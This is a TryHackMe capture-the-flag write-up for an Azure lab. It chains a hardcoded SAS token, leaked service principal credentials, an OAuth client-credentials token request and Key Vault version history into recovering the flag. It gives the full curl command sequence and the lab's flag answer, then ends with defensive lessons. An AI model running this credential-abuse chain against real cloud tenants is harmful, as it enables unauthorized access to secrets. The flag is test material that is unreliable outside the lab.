



# TryHackMe — Azure CTF Writeup

> **Platform:** TryHackMe  
> **Challenge:** CryptoCabana Azure  
> **Category:** Cloud Security — Azure  
> **Topics:** Azure Blob Storage · SAS Tokens · Service Principal Credentials · Azure Key Vault · OAuth 2.0 Client Credentials Flow · Secret Versioning  
> **Tools:** curl · jq

---

## Attack Chain Overview

```
Hardcoded SAS token in app.js
        ↓
Azure Blob Storage enumeration  →  vault container listing
        ↓
Download blobs  →  backup-service-account.json  +  seed_phrase.txt
        ↓
Extract Service Principal credentials (client_id, client_secret, tenant_id)
        ↓
OAuth 2.0 client credentials flow  →  Azure AD Bearer token
        ↓
Azure Key Vault secrets enumeration
        ↓
Retrieve key-shard-1, key-shard-2 (old version), key-shard-3
        ↓
Flag: THM{n0t_ur_k3ys_n0t_ur_c01ns!}
```

---

## Step 1 — Hardcoded Credentials in app.js

Reviewing the target application's source (`app.js`) revealed three hardcoded Azure Blob Storage values:

```javascript
const STORAGE_ACCOUNT  = "cryptocabanaf5scjagc";
const BACKUPS_CONTAINER = "backups";
const BACKUP_SAS = "?sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31...[REDACTED]";
```

A **SAS (Shared Access Signature) token** is a signed URL parameter that grants time-limited, scoped access to Azure Blob Storage — no account key or login required. Finding one hardcoded in JavaScript source is a critical misconfiguration: anyone with the token can access the storage account directly.

Key fields decoded from the SAS:
- `sv=2022-11-02` — storage service version
- `ss=b` — applies to blobs
- `srt=sco` — applies to service, container, and object level
- `sp=rl` — read + list permissions
- `se=2099-12-31...` — expires in 2099 (effectively permanent)



---

## Step 2 — Azure Blob Storage Enumeration

### List the `vault` Container

Using the SAS token to probe the `vault` container inside the `backups` storage account:

```bash
curl -I "https://cryptocabanaf5scjagc.blob.core.windows.net/backups/vault?restype=container&comp=list&${SAS}"
```

- `restype=container` — tells the API we're targeting a container
- `comp=list` — list all blobs inside it

**Result:** Two blobs found inside the `vault` container:
- `backup-service-account.json`
- `seed_phrase.txt`

---

## Step 3 — Download and Inspect the Blobs

```bash
# Download the service account credentials
curl -s -o backup-service-account.json \
  "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/backup-service-account.json?${SAS}"

# Download the seed phrase
curl -s -o seed_phrase.txt \
  "https://cryptocabanaf5scjagc.blob.core.windows.net/vault/seed_phrase.txt?${SAS}"

cat seed_phrase.txt
cat backup-service-account.json
```

**`seed_phrase.txt`** contained:
```
velvet cabana rebuild scatter obvious wallet drift lagoon punchline receipt orbit shrimp
```

**`backup-service-account.json`** contained Azure Service Principal credentials:

```json
{
  "client_id":     "[REDACTED]",
  "client_secret": "[REDACTED]",
  "key_vault_name": "ccabana-kv-f5scjagc",
  "key_vault_uri":  "https://ccabana-kv-f5scjagc.vault.azure.net/",
  "note":          "CryptoCabana backup automation account. Rotate this if it ever leaves the vault.",
  "tenant_id":     "[REDACTED]"
}
```

This is an Azure **Service Principal** — the Azure equivalent of an AWS IAM user for applications. With `client_id`, `client_secret`, and `tenant_id` we can authenticate as this principal and inherit whatever permissions it has been granted.

---

## Step 4 — OAuth 2.0 Client Credentials Flow → Bearer Token

Azure services are protected by Azure Active Directory (Azure AD). To call the Key Vault API, we need a Bearer token. With service principal credentials, we use the **client credentials grant**:

```bash
# Set variables from the JSON
TID="[tenant_id]"
CID="[client_id]"
CS="[client_secret]"

curl -X POST "https://login.microsoftonline.com/${TID}/oauth2/v2.0/token" \
  -d "grant_type=client_credentials\
      &client_id=${CID}\
      &client_secret=${CS}\
      &scope=https://vault.azure.net/.default"
```



**Response:** A Bearer token (`token_type: Bearer`, `expires_in: 3599`). Store it:

```bash
TOKEN="<paste access_token value>"
```

This token is valid for ~1 hour and scoped to `vault.azure.net` — meaning it can call the Azure Key Vault API on behalf of the backup service principal.

---

## Step 5 — Azure Key Vault — List All Secrets

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  "https://ccabana-kv-f5scjagc.vault.azure.net/secrets?api-version=7.4" | jq .
```



**Four secrets discovered:**

| Secret Name | Status |
|-------------|--------|
| `key-shard-1` | Active |
| `key-shard-2` | Active (current version rotated) |
| `key-shard-3` | Active |
| `master-key` | Active |

---

## Step 6 — Read Each Secret

```bash
V="https://ccabana-kv-f5scjagc.vault.azure.net"

# Shard 1
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/key-shard-1?api-version=7.4" | jq -r .value
# → THM{n0t_ur

# Shard 2 (rotated — current version returns the hint, not the key)
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/key-shard-2?api-version=7.4" | jq -r .value
# → "Rotated this after IT flagged it -- old value should still be recoverable if you know where to look."

# Shard 3
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/key-shard-3?api-version=7.4" | jq -r .value
# → ur_c01ns!}

# Master key
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/master-key?api-version=7.4" | jq -r .value
# → null
```

`key-shard-2` was **rotated** — the current version contains only a hint. Azure Key Vault retains all previous versions of a secret by default.

---

## Step 7 — Recover the Rotated Secret via Version History

Azure Key Vault keeps a full version history of every secret. Listing versions:

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/key-shard-2/versions?api-version=7.4" | jq .
```

The response listed two versions. The older version ID was `2/3d6492d2c6f74123bc754a9ded22b2a0`. Fetching it directly:

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
  "${V}/secrets/key-shard-2/2/3d6492d2c6f74123bc754a9ded22b2a0?api-version=7.4" | jq -r .value
# → _k3ys_n0t_
```


---

## Flag

Combining the three shards:

```
key-shard-1  →  THM{n0t_ur
key-shard-2  →  _k3ys_n0t_      (recovered from old version)
key-shard-3  →  ur_c01ns!}
```

```
Flag: THM{n0t_ur_k3ys_n0t_ur_c01ns!}
```

---

## Vulnerabilities Chained

| # | Vulnerability | Where |
|---|--------------|-------|
| 1 | Hardcoded SAS token in client-side source code | `app.js` |
| 2 | Overly permissive SAS scope (`sp=rl`) with 75-year expiry | Azure Blob Storage |
| 3 | Sensitive JSON (service principal credentials) stored in a blob | Blob container `vault` |
| 4 | Secret version history not purged after rotation | Azure Key Vault |

## Lessons Learned

**SAS tokens are credentials** — treat them like passwords. Never embed them in client-side code, set the shortest expiry that meets the use case, and use the minimum required permissions (`sp`).

**Blobs are not private by default when a SAS exists** — storing service principal credentials in the same storage account the SAS protects creates a single point of failure. If the SAS leaks, everything in the account is exposed.

**Secret rotation does not mean secret deletion** — rotating a Key Vault secret creates a new version but the old version remains readable. To truly revoke a secret, disable or delete previous versions explicitly after confirming nothing still depends on them.

**OAuth tokens inherit the permissions of the principal** — the backup service account had `Key Vault Secrets User` access, which was more than a backup job needed. Apply least-privilege to service principals just as you would to human users.

---

*Writeup by Saanvi · TryHackMe Azure CryptoCabana challenge*
